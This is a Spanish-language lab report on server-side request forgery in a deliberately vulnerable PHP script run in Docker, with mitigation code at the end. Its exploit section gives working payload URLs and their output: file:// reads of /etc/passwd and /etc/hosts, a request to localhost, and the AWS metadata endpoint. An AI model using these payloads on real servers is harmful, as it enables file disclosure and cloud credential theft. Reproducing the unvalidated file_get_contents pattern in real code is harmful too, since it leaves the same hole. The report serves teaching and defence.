





# SSRF

SSRF (Server-Side Request Forgery) ocurre cuando una aplicación permite que un usuario controle solicitudes realizadas
desde el servidor.

Esto puede ser utilizado para:
- Acceder a recursos internos (localhost, 127.0.0.1, 169.254.169.254).
- Filtrar información sensible, como credenciales en AWS.
- Escanear la red interna del servidor víctima.

# INFORME TÉCNICO - ANÁLISIS Y MITIGACIÓN SSRF

## 1. OBJETIVO

Identificar vulnerabilidades SSRF (Server-Side Request Forgery) en una aplicación PHP que realiza peticiones controladas por el usuario sin validación, y proponer mitigaciones.

---

## 2. ENTORNO DE PRUEBAS

| Parámetro | Valor |
|---|---|
| **Servidor** | PHP/Apache (Docker) |
| **URL objetivo** | `http://localhost/ssrf.php` |
| **Archivo vulnerable** | `ssrf.php` |
| **Parámetro atacado** | `$_GET['url']` → `file_get_contents()` |

**Docker Compose:**

```yaml
version: '3.1'
services:
  server:
    image: php:apache
    ports:
      - 80:80
    volumes:
      - .:/var/www/html
```

---

## 3. CÓDIGO VULNERABLE

```php
<?php
//  Sin validación del parámetro
$url = $_GET['url'];

//  Ejecuta cualquier URL o ruta local sin restricción
$response = file_get_contents($url);

//  Muestra la respuesta directamente al usuario
echo $response;
?>
```

| Línea | Problema | Impacto |
|---|---|---|
| 2 | `$_GET['url']` sin validar | Usuario controla URL completamente |
| 3 | `file_get_contents($url)` sin restricción | Accede a archivos locales y red interna |
| 4 | `echo $response` directo | Expone el contenido obtenido |

- **CWE:** CWE-918 - Server-Side Request Forgery
- **Severidad:** CRÍTICA (CVSS 9.8)

---

## 4. EXPLOITS IDENTIFICADOS

### EXPLOIT 0: Sin parámetro (Information Disclosure)

**URL:**

```
http://localhost/ssrf.php
```



**Resultado:**

```
Warning: Undefined array key "url" en ssrf.php línea 2
Deprecated: file_get_contents(): Passing null en ssrf.php línea 3
Fatal error: Uncaught ValueError: Path must not be empty en ssrf.php línea 3
```

**Impacto:** MEDIA — Los errores PHP exponen la ruta interna del servidor (`/var/www/html/ssrf.php`), la versión de PHP y la estructura del código. Information Disclosure que facilita ataques posteriores.

---

###  EXPLOIT 1: Lectura `/etc/passwd` (File Disclosure)

**URL:**

```
http://localhost/ssrf.php?url=file:///etc/passwd
```



**Resultado obtenido:**

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

**Impacto:** CRÍTICA (CVSS 9.8) — Exposición completa de usuarios del sistema. Permite enumerar cuentas para ataques de fuerza bruta y escalada de privilegios.

---

###  EXPLOIT 2: Lectura `/etc/hosts` (Red Interna)

**URL:**

```
http://localhost/ssrf.php?url=file:///etc/hosts
```



**Resultado obtenido:**

```
127.0.0.1 localhost
172.23.0.2 24d928c0ee52
```

**Impacto:** ALTA (CVSS 8.6) — Revela la topología de red interna del servidor Docker (IP `172.23.0.2`) y hostname del contenedor (`24d928c0ee52`). Permite mapear servicios internos para ataques de movimiento lateral.

---

### EXPLOIT 3: Acceso a servicios internos (SSRF HTTP)

**URL:**

```
http://localhost/ssrf.php?url=http://127.0.0.1/
```



**Resultado obtenido:**

```
Warning: file_get_contents(http://127.0.0.1/): Failed to open stream:
HTTP request failed! HTTP/1.1 403 Forbidden
```

**Impacto:** ALTA (CVSS 8.6) — El error 403 confirma que el servidor realizó la petición HTTP interna. En un entorno real permitiría acceder a paneles de administración, APIs internas o bases de datos no expuestas públicamente.

---

### EXPLOIT 4: SSRF Cloud Metadata (AWS)

**URL:**

```
http://localhost/ssrf.php?url=http://169.254.169.254/latest/meta-data/
```



**Resultado obtenido:**

```
Warning: file_get_contents(http://169.254.169.254/latest/meta-data/):
Failed to open stream: No route to host
```

**Impacto:** CRÍTICA — El servidor intentó conectar al endpoint de metadata de AWS. En un servidor cloud real devolvería tokens IAM, credenciales de acceso y configuración de la instancia, permitiendo compromiso total de la infraestructura cloud.

---

## 5. MITIGACIÓN

###  Código SEGURO (`safe_ssrf.php`)

```php
<?php
//  MITIGACIÓN 1: Validar existencia del parámetro
if (!isset($_GET['url']) || empty($_GET['url'])) {
    http_response_code(400);
    die('URL parameter required');
}

$url = $_GET['url'];

//  MITIGACIÓN 2: Allowlist de dominios permitidos
$allowed_hosts = ['api.ejemplo.com', 'servicio-externo.com'];
$parsed = parse_url($url);

if (!isset($parsed['host']) || 
    !in_array($parsed['host'], $allowed_hosts)) {
    http_response_code(403);
    die('Host no permitido');
}

//  MITIGACIÓN 3: Solo permitir HTTPS (bloquea file://, ftp://)
if ($parsed['scheme'] !== 'https') {
    http_response_code(403);
    die('Solo se permite HTTPS');
}

//  MITIGACIÓN 4: Bloquear IPs privadas y localhost
$ip = gethostbyname($parsed['host']);
$private_ranges = [
    '127.0.0.0/8',    // localhost
    '10.0.0.0/8',     // red privada
    '172.16.0.0/12',  // red privada Docker
    '192.168.0.0/16', // red privada
    '169.254.0.0/16'  // metadata cloud
];

foreach ($private_ranges as $range) {
    if (ip_in_cidr($ip, $range)) {
        http_response_code(403);
        die('Acceso a red interna no permitido');
    }
}

//  MITIGACIÓN 5: cURL con restricciones y timeout
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTPS);
$response = curl_exec($ch);
curl_close($ch);

//  MITIGACIÓN 6: Sanitizar output
echo htmlspecialchars($response, ENT_QUOTES, 'UTF-8');

function ip_in_cidr($ip, $cidr) {
    list($subnet, $mask) = explode('/', $cidr);
    return (ip2long($ip) & ~((1 << (32 - $mask)) - 1)) 
           === ip2long($subnet);
}
?>
```

| Mitigación | Descripción |
|---|---|
| Validar parámetro | Evita errores informativos sin parámetro |
| Allowlist de dominios | Solo hosts explícitamente autorizados |
| Solo HTTPS | Bloquea `file://`, `ftp://`, `http://` |
| Bloquear IPs privadas | Impide acceso a localhost y red interna |
| Timeout en cURL | Limita tiempo de respuesta (anti-DoS) |
| `htmlspecialchars()` | Previene XSS secundario en la respuesta |

---

## 6. CONCLUSIONES

-  5 exploits SSRF identificados y replicados con éxito
-  File Disclosure confirmado (`/etc/passwd`, `/etc/hosts`)
-  Topología red interna Docker expuesta (`172.23.0.2`)
-  SSRF HTTP confirmado (403 en `127.0.0.1`)
-  Intento de acceso a metadata cloud documentado
-  Mitigación multicapa implementada en `safe_ssrf.php`

> **Recomendación:** Reemplazar `ssrf.php` → `safe_ssrf.php` aplicando allowlist estricta de dominios y bloqueando rangos IP privados.